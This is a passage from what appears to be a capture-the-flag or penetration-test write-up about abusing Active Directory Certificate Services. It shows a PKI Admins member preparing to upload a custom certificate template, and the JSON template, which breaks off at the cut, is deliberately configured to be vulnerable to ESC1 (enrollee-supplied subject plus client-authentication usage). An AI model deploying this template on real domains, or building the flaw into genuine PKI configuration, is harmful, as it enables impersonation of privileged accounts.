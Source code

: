 Unfortunatly none of these are vulnerable to any known misconfigurations.
But since we are in the PKI Admins group we can manage the Active Directory Certificate Service.
With this knowledge we can attempt to upload our own templates. Usualy this is done with the GUI (*Microsoft Management Console*). We don't have access to a RDP connection so we will have to be a little bit more creative:

https://github.com/GoateePFE/ADCSTemplate

Here is a template that is vulnerable to the ESC1 vulnerablity:
```json
{
    "name":  "quacked",
    "displayName":  "quacked",
    "objectClass":  "pKICertificateTemplate",
    "flags":  131616,
    "revision":  100,
    "msPKI-Cert-Template-OID":  "1.3.6.1.4.1.311.21.8.16735922.7437492.10570883.2539024.15756463.185.9025784.11813639",
    "msPKI-Certificate-Application-Policy":  [
                                                 "1.3.6.1.5.5.7.3.2"
                                             ],
    "msPKI-Certificate-Name-Flag":  1,
    "msPKI-Enrollment-Flag":  0,
    "msPKI-Minimal-Key-Size":  2048,
    "msPKI-Private-Key-Flag":  16842752,
    "msPKI-RA-Signature":  0,
    "msPKI-Template-Minor-Revision":  4,
    "msPKI-Template-Schema-Version":  2,
    "pKICriticalExtensions":  [
                                  "2.5.29.15",
                                  "2.5.29.7"
                              ],
    "pKIDefaultCSPs":  [
                           "3,Microsoft Base DSS Cryptographic Provider",
                           "2,Microsoft Base Cryptographic Provider v1.0",
                           "1,Microsoft Enhanced Cryptographic Provider v1.0"
                       ],
    "pKIDefaultKeySpec":  2,
    "pKIExpirationPeriod":  [
                                0,
                                64,
                                57,
                                135,
                                46,
                                225,
                                254,
                                255
                            ],
    "pKIExtendedKeyUsage":  [
                                "1.3.6.1.5.5.7.3.2"
                            ],
    "pKIKeyUsage":  [
                        128,
                        0
                    ],
    "pKIMaxIssuingDepth":  0,
    "pKIOverlapPeriod":  [
                             0,
                             128,
                             166,
                             10,
                             255,
                             222,
                             255,
                             255
```